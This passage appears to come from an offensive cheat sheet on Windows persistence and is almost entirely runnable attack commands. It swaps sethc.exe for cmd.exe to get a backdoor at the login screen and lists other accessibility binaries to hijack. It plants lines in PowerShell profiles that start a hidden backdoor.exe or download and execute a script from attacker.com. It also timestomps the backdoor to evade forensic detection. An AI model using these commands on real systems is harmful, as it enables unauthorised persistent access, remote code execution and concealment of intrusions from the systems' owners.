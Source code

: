### 3. Accessibility Features Backdoor
```cmd
# Replace sticky keys with cmd.exe (classic technique)
takeown /f "C:\Windows\System32\sethc.exe" /a
icacls "C:\Windows\System32\sethc.exe" /grant administrators:F
copy /y "C:\Windows\System32\cmd.exe" "C:\Windows\System32\sethc.exe"

# Use at login screen by pressing SHIFT 5 times

# Other accessibility features to hijack
C:\Windows\System32\utilman.exe (Windows Key + U)
C:\Windows\System32\osk.exe (On-Screen Keyboard)
C:\Windows\System32\narrator.exe (Windows Key + Enter)
```

## PowerShell-Based Persistence

### 1. PowerShell Profile Modification
```powershell
# Modify PowerShell profile for persistence
$ProfilePath = $PROFILE.AllUsersAllHosts
Add-Content -Path $ProfilePath -Value 'Start-Process "C:\Windows\System32\backdoor.exe" -WindowStyle Hidden'

# User-specific profile
$UserProfile = $PROFILE.CurrentUserAllHosts
Add-Content -Path $UserProfile -Value 'IEX (New-Object Net.WebClient).DownloadString("http://attacker.com/payload.ps1")'
```

### 2. PowerShell ISE Persistence
```powershell
# Modify PowerShell ISE profile
$ISEProfile = $PROFILE.CurrentUserCurrentHost.Replace("profile.ps1", "Microsoft.PowerShellISE_profile.ps1")
Add-Content -Path $ISEProfile -Value 'Start-Process "C:\Windows\System32\backdoor.exe" -WindowStyle Hidden'
```

## Persistence Detection Evasion

### 1. Timestomping
```cmd
# Match file timestamps to system files
powershell "(Get-Item 'C:\Windows\System32\backdoor.exe').LastWriteTime = (Get-Item 'C:\Windows\System32\kernel32.dll').LastWriteTime"
powershell "(Get-Item 'C:\Windows\System32\backdoor.exe').CreationTime = (Get-Item 'C:\Windows\System32\kernel32.dll').CreationTime"
```
